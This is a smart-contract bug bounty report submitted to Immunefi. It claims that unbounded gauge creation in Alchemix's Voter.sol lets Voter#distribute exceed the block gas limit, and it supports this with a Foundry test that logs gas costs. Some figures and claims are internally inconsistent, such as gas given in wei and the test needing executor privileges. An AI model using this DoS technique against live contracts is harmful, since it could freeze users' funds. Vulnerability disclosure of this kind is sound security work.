 
# Unlimited gauge numbers can DoS user's distribute action

Submitted on Fri May 03 2024 14:20:16 GMT-0400 (Atlantic Standard Time) by @Hoverfly9132 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30667

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Temporary freezing of funds for 12 hours

## Description
## Brief/Intro

`Voter#createGauge` allow users create unlimited gauges and distribute vote power to any numbers of alive gauges in `Voter#distribute`, once the gauges numbers reach a limitation, the users can't execute `Voter#distribute` any more.


## Vulnerability Details

Currently, there is no limit to `Voter#createGauge` function, as the doc [description](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/CONTRACTS.md#L27): 

`- each veALCX tokenId may distribute their voting power across any number of gauges`, it means that any users can create any numbers of gauges and distribute vote power to them. Once the gauges be created, the pool will be recorded in gauges array, and in `Voter#distribute` function will traverse the array and then distribute vote power to them.

However, if the gauges is large enough, the gas cost may reach the ethereum/optimism gas limit, currently is 30_000_000, then such txs would be failed, which means users can't execute distribute vote power action any more, unless they remove the gauge, but there is no remove gauge function in this version, only have `killGauge` function to set the gauges to be not alive state.

## Impact Details

Users can't execute `Voter#distribute` any more when created gauges numbers is large enough.

## References

NA

        
## Proof of concept
## Proof of Concept

Because the needed gauges need cost much time in test case, so I will show distribute to different gauges would cost how much gas:

```solidity
function testExecutorCreateGaugeFrontRunDos() public {
    address attacker = address(0x2345);

    uint256 created_gauges = 1;
    hevm.startPrank(address(timelockExecutor));
    for (uint i = 0; i < created_gauges; i++) {
        voter.createGauge(address(uint160(i)), IVoter.GaugeType.Passthrough);
    }
    hevm.stopPrank();

    hevm.warp(block.timestamp + 3 weeks);
    uint256 gas_left = gasleft();
    voter.distribute();
    uint256 gas_after = gasleft();
    console.log("gas left: ", gas_left - gas_after);
}
```

When the `created_gauges` is equal to `1`, `Voter#distribute` gas cost is about ~1050000 wei:

```json
[PASS] testExecutorCreateGaugeFrontRunDos() (gas: 3607681)
Logs:
  gas left:  1054068
```

When the `created_gauges` is equal to `10`, `Voter#distribute` gas cost is about ~1154915 wei:

```json
[PASS] testExecutorCreateGaugeFrontRunDos() (gas: 27094489)
Logs:
  gas left:  1154915
```

When the `created_gauges` is equal to `20`, `Voter#distribute` gas cost is about ~1154915 wei:

```json
[PASS] testExecutorCreateGaugeFrontRunDos() (gas: 53190954)
Logs:
  gas left:  1266968
```

So distribute to more one gauge, gas cost is about: `(1266968 - 1154915) / 10 ~= 11205`, the max gauge in one tx is about `30000000 / 11205 ~= 2677`. Actually, the max gauge should less than 2677 because the distribute action will cost gas in other function. When set `created_gauges` to `2677`, the `Voter#distribute` function gas cost greater than `30_000_000` wei absolutely.

